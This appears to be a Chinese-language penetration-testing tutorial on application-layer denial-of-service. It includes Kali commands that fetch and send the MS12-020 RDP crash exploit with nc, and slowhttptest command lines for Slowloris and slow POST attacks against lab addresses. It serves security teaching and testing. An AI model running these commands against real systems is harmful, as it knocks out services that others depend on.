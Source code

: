 
# 应用层DoS 攻击

* 简介
* 攻击测试 MS12-020
* Slowhttptest
* 攻击测试


## 简介
* 应用服务漏洞
1. 服务代码存在漏洞，遇异常提交数据时程序崩溃
1. 应用处理大量并发请求能力有限，被拒绝的是应用或OS

* 缓冲区溢出漏洞
1. 向目标函数随机提交数据，特定情况下数据覆盖临近寄存器或内存
1. 影响: 远程代码执行、DOS
1. 利用模糊测试方法发现缓冲区溢出漏洞


* CesarFTP 0.99 服务漏洞
1. ftp_fuzz.py # MKD/RMD

* MS12-020 远程桌面协议DOS漏洞
  

## 攻击测试 MS12-020
``` 
root@kali:~# searchsploit ms12-020
root@kali:~# cp /usr/share/exploitdb/exploits/windows/dos/18606.txt .
root@kali:~# mv 18606.txt  MS12-020.txt
root@kali:~# leafpad MS12-020.txt 
root@kali:~# nc 10.10.10.141 3389 < termdd_1.dat

```

## Slowhttptest
* Slowhttptest (源自google)
1. 低带宽应用层慢速DOS攻击(相对于CC等快速攻击而言的慢速)
1. 最早由Python编写，跨平台支持(Linux、win、Cygwin、OSX)
1. 尤其擅长攻击apache.tomcat (几乎百发百中)  


* 攻击方法
1. Slowloris、Slow HTTP POST 攻击
``` 
耗尽应用的并发连接池，类似于Http层的Syn flood
HTTP协议默认在服务器全部接收请求之后才开始处理，若客户端发送速度缓慢或不完整 服务器时钟为其保留连接资源池占用，此类大量并发将导致DOS
Slowloris: 完整的http请求结尾是rnirn, 攻击发……
Slow POST: HTTP头content-length声明长度，但body部分缓慢发送
```

* 攻击方法
1. Slow Read attack攻击
1. 与slowloris and slow POST目的相同，都是耗尽应用的并发连接池
1. 不同之处在于请求正常发送，但慢速读取响应数据
1. 攻击者调整TCPwindow窗口大小，是服务器慢速返回数据

* 攻击方法
1. Apache Range Header attack
``` 
客户端传输大文件时，体积查过HTTP Body大小限制时进行分段
耗尽服务器CPU、内存资源
```
* ulimite -n 70000

* HTTP Post 攻击模式
``` 
slowhttptest -c 1000 -B -g -o body_stats -i 110 -r 200 -s 8192 -t FAKEVERB -u http://10.10.10.132 -x 10 -p 3
```

* slowloris 攻击模式
``` 
slowhttptest -c 1000 -H -g -o header_stats -i 10 -r 200 -t GET -u http://10.10.10.132 -x 24 -p 3

```  

* 支持代理

* 大量应用服务器和安全设备都无法防护慢速攻击



## 攻击测试
``` 
root@kali:~# slowhttptest -c 60000 -B -g -o body_stats -i 110 -r 200 -s 8192 -t FAKEVERB -u http://10.10.10.132 -x 10 -p 3 -l 999999

root@kali:~# slowhttptest -c 1000 -H -g -o my_header_stats -i 10 -r 200 -s 8192 -t GET -u http://10.10.10.132 -x 10 -p 3

root@kali:~# man slowhttptest

```



